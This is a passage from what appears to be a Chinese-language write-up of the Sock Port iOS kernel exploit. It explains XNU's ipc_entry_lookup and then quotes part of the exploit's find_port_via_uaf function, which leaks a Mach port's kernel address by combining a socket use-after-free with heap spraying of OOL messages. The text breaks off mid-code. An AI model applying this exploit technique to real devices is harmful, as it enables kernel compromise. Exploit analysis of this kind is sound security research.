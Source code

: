 这里主要有两个关键步骤：
1. 在当前 IPC Space 的 port 索引表中根据 port_name 获取到 port address；
2. 将 port right 拷贝到内核中的 ipc_object 对象返回。

这里的关键是第 1 步，它通过 `ipc_right_lookup_write` 实现了句柄到地址的转换，它是对 `ipc_entry_lookup` 的封装，我们直接看后者的实现：
```c
ipc_entry_t
ipc_entry_lookup(
	ipc_space_t		space,
	mach_port_name_t	name)
{
    mach_port_index_t index;
    ipc_entry_t entry;
    
    assert(is_active(space));
    
    // 1. get index from port name
    index = name >> 8;
    if (index <  space->is_table_size) {
        // 2. get port address by index from is_table
        entry = &space->is_table[index];
    	if (IE_BITS_GEN(entry->ie_bits) != MACH_PORT_GEN(name) ||
    	    IE_BITS_TYPE(entry->ie_bits) == MACH_PORT_TYPE_NONE) {
    		entry = IE_NULL;		
    	}
    }
    else {
    	entry = IE_NULL;
    }
    
    assert((entry == IE_NULL) || IE_BITS_TYPE(entry->ie_bits));
    return entry;
}
```

从这里我们可以看到，port 句柄中的索引信息是从第 8 位开始的，因此将 port name 右移 8 位即可得到 port index，随后在索引表中查找地址返回。

到这里我们已经全然明白了为何能通过发送 Mach OOL Message 实现迫使内核分配指定 port 的 `ipc_port pointers` 的原理，接下来我们着手分析如何获取到这个地址。

# 通过 OOL Message 与 Socket UAF 获取 Port Address
到这里思路变得十分明确，我们只需要利用 Socket UAF 得到一块已释放区域，然后发送大量的 OOL Message 消息，且使得 port 数组与被释放区域大小一致，即可通过 Heap Spraying 将 `ipc_port pointer` 数组分配在已释放区域，下面我们来看 Sock Port 中的这段代码：

```c
// first primitive: leak the kernel address of a mach port
uint64_t find_port_via_uaf(mach_port_t port, int disposition) {
    // here we use the uaf as an info leak
    // 1. make dangling socket option zone
    int sock = get_socket_with_dangling_options();
    
    for (int i = 0; i < 0x10000; i++) {
        // since the UAFd field is 192 bytes, we need 192/sizeof(uint64_t) pointers
        
        // 2. send ool message
        mach_port_t p = fill_kalloc_with_port_pointer(port, 192/sizeof(uint64_t), MACH_MSG_TYPE_COPY_SEND);
        
        int mtu;
        int pref;
        
        // 3. get option and check if it is a kernel pointer
        get_minmtu(sock, &mtu); // this is like doing rk32(options + 180);
        get_prefertempaddr(sock, &pref); // this like rk32(options + 184);
        
```